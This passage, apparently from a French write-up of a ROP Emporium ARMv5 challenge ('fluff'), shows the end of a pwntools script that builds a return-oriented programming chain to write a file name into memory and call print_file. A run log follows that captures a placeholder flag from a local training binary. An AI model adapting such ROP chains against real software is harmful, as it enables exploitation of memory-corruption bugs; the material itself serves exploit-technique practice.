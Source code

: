 ```python
PL+=p32(0)               # r8
PL+=p32(0)               # sb
PL+=p32(0)               # sl
PL+=p32(g_pop_r013_bxr1) # pc
PL+=p32(g_pop_r45678)    # r0
PL+=p32(g_str_r6r5_bxr0+1) # r1
PL+=p32(0)               # r3 fake

# ".txt"
PL+=p32(0)               # r4
PL+=p32(data+4-0x44)     # r5
PL+=flagfile[4:8]        # r6
PL+=p32(0)               # r7
PL+=p32(0)               # r8
PL+=p32(0)               # sb
PL+=p32(0)               # sl
PL+=p32(g_pop_r013_bxr1) # pc
PL+=p32(g_pop_r3)    # r0 : gadget suivant
PL+=p32(g_str_r6r5_bxr0+1) # r1
PL+=p32(0)               # r3 fake

# appel de print_file
PL+=p32(data)            # consommé par pop r3
PL+=p32(g_mov_r0r3)      # mov r0,r3; pop{r11,pc}
PL+=p32(0)               # pour r11
PL+=p32(print_file)

io.sendline(PL)

io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()
```
### Son déroulement

    armv5/06_fluff$ python3 solve.py
    [*] '/home/jce/w/ropemporium/armv5/06_fluff/fluff_armv5'
        Arch:     arm-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x10000)
        RUNPATH:  b'.'
    [+] Starting local process '/home/jce/w/ropemporium/armv5/06_fluff/fluff_armv5': pid 14999
    [*] .data       = 0x135204
    [*] .print_file = 0x66736
    [+] flag : ROPE{a_placeholder_32byte_flag!}
    [*] Stopped process '/home/jce/w/ropemporium/armv5/06_fluff/fluff_armv5' (pid 14999)
